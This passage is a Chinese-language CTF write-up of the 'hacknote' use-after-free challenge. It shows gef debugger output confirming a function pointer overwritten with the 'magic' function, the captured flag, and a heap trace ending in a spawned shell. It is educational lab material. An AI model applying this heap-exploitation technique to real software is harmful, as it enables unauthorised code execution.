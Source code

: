 覆盖后，具体的值如下

```asm
gef➤  x/2xw 0x804b008
0x804b008:	0x08048986	0x0804b00a
gef➤  x/i 0x08048986
   0x8048986 <magic>:	push   ebp
```

可以看出，确实已经被覆盖为我们所想要的magic函数了。

最后执行的效果如下

```shell
[+] Starting local process './hacknote': pid 35030
[*] Switching to interactive mode
flag{use_after_free}----------------------
       HackNote       
----------------------
 1. Add note          
 2. Delete note       
 3. Print note        
 4. Exit              
----------------------
```

同时，我们还可以借助gef的heap-analysis-helper 来看一下整体的堆的申请与释放的情况，如下

```asm
gef➤  heap-analysis-helper 
[*] This feature is under development, expect bugs and unstability...
[+] Tracking malloc()
[+] Tracking free()
[+] Tracking realloc()
[+] Disabling hardware watchpoints (this may increase the latency)
[+] Dynamic breakpoints correctly setup, GEF will break execution if a possible vulnerabity is found.
[*] Note: The heap analysis slows down noticeably the execution. 
gef➤  c
Continuing.
[+] Heap-Analysis - malloc(8)=0x804b008
[+] Heap-Analysis - malloc(8)=0x804b008
[+] Heap-Analysis - malloc(32)=0x804b018
[+] Heap-Analysis - malloc(8)=0x804b040
[+] Heap-Analysis - malloc(32)=0x804b050
[+] Heap-Analysis - free(0x804b018)
[+] Heap-Analysis - watching 0x804b018
[+] Heap-Analysis - free(0x804b008)
[+] Heap-Analysis - watching 0x804b008
[+] Heap-Analysis - free(0x804b050)
[+] Heap-Analysis - watching 0x804b050
[+] Heap-Analysis - free(0x804b040)
[+] Heap-Analysis - watching 0x804b040
[+] Heap-Analysis - malloc(8)=0x804b040
[+] Heap-Analysis - malloc(8)=0x804b008
[+] Heap-Analysis - Cleaning up
[+] Heap-Analysis - Re-enabling hardware watchpoints
[New process 36248]
process 36248 is executing new program: /bin/dash
[New process 36249]
process 36249 is executing new program: /bin/cat
[Inferior 3 (process 36249) exited normally]
```
